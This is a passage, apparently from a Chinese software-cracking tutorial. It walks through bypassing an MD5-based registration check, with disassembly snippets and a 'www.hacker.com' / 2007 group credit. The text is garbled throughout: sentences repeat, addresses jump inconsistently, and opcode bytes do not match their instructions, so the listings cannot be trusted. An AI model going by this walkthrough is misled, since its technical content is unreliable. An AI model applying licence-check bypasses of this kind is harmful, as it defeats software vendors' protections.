注册了`MD5`加密方法，不在注册的情况下是不检查的。在这里调用命令`0004079D`返回检测结果，这里的结果就是`MD5`的结果。我们用`MD5`加密方法来检测（注册名）。如果结果一致，我们将注册名与固定字符串拼接并比较`MD5`。这是标准的做法，如果计算结果符合预期，那么注册成功了。这里又是从加密中获取并组合新的字符串，但是新的字符串并不是`MD5`的字符，`MD5`加密的过程非常简单，只需要一次。我们的注册名被加密了，但是真正的`MD5`结果是：

```assembly
00041E9 37A4B6C1      push C1B6A437
            /28E8A5=
```

与预期结果一致，我们可以通过`MD5`方法判断注册成功了。在`MD5`方法中，可以被加密的密码，可以被加密的密码，这里我们将加密的结果，继续查找，直到执行了`MD5`方法，在最后出现了：

```assembly
00041B9 7A /60      push 00
00041BA 7F 07D900      push 00D9007F
            /用于注册后的结果：
00041B7 E8 85A600      push 00A685E8
            /MD5:（注册名）结果是：
00041BD 68 84B000      push 00B08468
00041BE 75 E8      jmp EAX
00041C2 B3 44000      push 0004B3B3
```

这个调用方法之后，我们看到：

www.hacker.com

2007 年萌点小组 上版

```assembly
00401B9 | 33C3or eax, ebx
00401BD | 50 push ebp
3. XOR (第一组，第二组), 结果存入 EAX
00401BC8 | 68333400 add esp,0040335
5. Format = "%s"
00041BD
```
